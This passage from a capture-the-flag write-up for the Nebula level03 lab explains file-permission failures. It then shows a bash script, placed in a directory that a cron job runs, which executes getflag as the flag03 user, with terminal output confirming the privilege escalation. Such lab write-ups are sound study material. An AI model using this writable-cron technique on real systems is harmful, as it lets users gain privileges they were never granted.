 It worked!  ᕕ( ᐛ )ᕗ

The reason is simple! User `flag03` has read permissions to `/tmp`, but not to `/home/level03`.
```
level03@nebula:/home/flag03$ ls -ld /tmp
drwxrwxrwt 4 root root 140 2018-04-01 10:09 /tmp
level03@nebula:/home/flag03$ ls -ld ~
drwxr-x--- 1 level03 level03 180 2018-04-01 08:25 /home/level03
```

Just to test the theory, I tried to compile a C file in `/home/level03` as user `flag03`. The permission denied error explains the problem we had with solution. (See [here](https://askubuntu.com/questions/466605/cannot-open-output-file-permission-denied) for elaboration).
```
flag03@nebula:~$ gcc -o ~/test.o attempt1.c
/usr/bin/ld: cannot open output file /home/level03/test.o: Permission denied
collect2: ld returned 1 exit status
flag03@nebula:~$ 
```


##### Solution 2 reborn
The reason why solution 2 did not work is because the cron process run as user `flag03` does not have write permissions to `/tmp/output`. It only had read permissions.
```
level03@nebula:/home/flag03$ ls -l /tmp/output
-rw-rw-r-- 1 level03 level03 0 2018-04-01 10:01 /tmp/output
```
So I did an experiment. I would pipe the output of `/bin/getflag` into 2 different files, one owned by `level03`, and another owned by `flag03`.
```
#!/bin/bash

touch /tmp/output_owned_by_flag03

/bin/getflag >> /tmp/output_owned_by_flag03
/bin/getflag >> /tmp/output_owned_by_level03
```
After the `crond` ran `writable.sh`, only the file owned by `flag03` had the desired output. The reason is simple; it had write permissions to its file, and not the one owned by `level03`.
```
level03@nebula:/home/flag03$ cat /tmp/output_owned_by_flag03 
You have successfully executed getflag on a target account
level03@nebula:/home/flag03$ cat /tmp/output_owned_by_level03 
level03@nebula:/home/flag03$ ls -l /tmp/
total 4
-rw-rw-r-- 1 flag03  flag03  59 2018-04-01 09:36 output_owned_by_flag03
-rw-rw-r-- 1 level03 level03  0 2018-04-01 09:33 output_owned_by_level03
```
Yay. ヽ(´ー｀)ノ
### Seeing what cronjob was being run

Just out of curiousity, I decided to see what `cronjob` user `flag03` was running. `flag03@nebula:/tmp$ crontab -l` gave the output `*/3 * * * * /home/flag03/writable.sh`, showing that `writable.sh` was executed every 3 minutes.


END

